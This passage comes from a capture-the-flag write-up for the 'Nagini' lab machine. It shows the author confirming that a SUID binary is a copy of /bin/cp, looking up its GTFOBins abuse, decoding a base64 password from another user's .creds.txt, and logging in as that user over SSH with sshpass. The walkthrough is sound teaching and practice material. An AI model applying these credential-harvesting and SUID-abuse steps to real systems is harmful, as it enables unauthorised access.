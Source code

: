 And that makes me think that maybe the binary is the same binary `/bin/cp`. When I check it using the `md5sum` command:
```shell
$ www-data@Nagini:/home/hermoine$ md5sum bin/su_cp /bin/cp
d38d5be99452fb23cce11fc7756c1594  bin/su_cp
d38d5be99452fb23cce11fc7756c1594  /bin/cp
```
Then I can confirm that it is the same binary.

When I search for [`cp` in gtfobins](https://gtfobins.github.io/gtfobins/cp/#suid), and I see I could use the `--no-preserve=all` options to ignore the permissions, but I can only read or write files, and I will keep it in mind if I need it later.

When I check the `snape` directory, then I find:
```shell
...SNIPPED...
-rw-r--r-- 1 snape snape   17 Apr  4  2021 .creds.txt
drwx------ 3 snape snape 4096 Apr  4  2021 .gnupg
-rw-r--r-- 1 snape snape  807 Apr  3  2021 .profile
drwx------ 2 snape snape 4096 Apr  4  2021 .ssh
```
When I read the file `.creds.txt`, then I can see:
```
TG92ZUBsaWxseQ==
```
When I use the `base64` command:
```shell
$ echo -n "TG92ZUBsaWxseQ==" | base64 -d
Love@lilly
```
Then I use the `ssh` command, and the credentials `snape:Love@lilly`:
```shell
$ sshpass -p "Love@lilly" ssh snape@192.168.2.25
```
ant it works:

![evidence](./static/22-ssh-snape.png)
